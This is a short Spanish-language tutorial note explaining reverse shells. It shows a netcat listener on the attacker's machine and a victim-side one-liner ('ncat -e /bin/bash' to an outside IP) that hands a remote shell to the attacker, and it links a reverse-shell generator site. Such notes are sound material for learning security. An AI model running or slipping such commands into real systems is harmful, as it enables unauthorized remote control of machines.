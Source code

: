Una "reverse shell" es una técnica utilizada en el campo de la ciberseguridad y la piratería informática. En una comunicación típica de red, un cliente (por ejemplo, un navegador web) se conecta a un servidor (por ejemplo, un servidor web) para solicitar recursos o servicios. Sin embargo, en una "reverse shell", el flujo normal se invierte.

En una "reverse shell", el objetivo es que un dispositivo comprometido (la "víctima") establezca una conexión saliente hacia el atacante (el "atacante" o "controlador"). Esto significa que la víctima ejecuta un código malicioso que permite que el atacante tome el control del dispositivo comprometido a través de una conexión de red. Una vez que se ha establecido esta conexión, el atacante puede enviar comandos al dispositivo comprometido y recibir las respuestas, lo que le permite ejecutar acciones arbitrarias en el sistema comprometido. 

En el siguiente ejemplo se muestra (con [[Netcat]] la forma de una reverse shell)

**Máquina del atacante**

Primero el atacante se pone en escucha con el siguiente comando en un [[puerto]] en específico.

```
nc -nlvp 443
```

**Máquina victima**

Una vez que la máquina del atacante se encuentre en escucha y previamente con el acceso a la máquina víctima aplicas el siguiente comando para tener una consola:

```
ncat -e /bin/bash 198.168.0.1
```

----
Página para reverse shell:

https://www.revshells.com

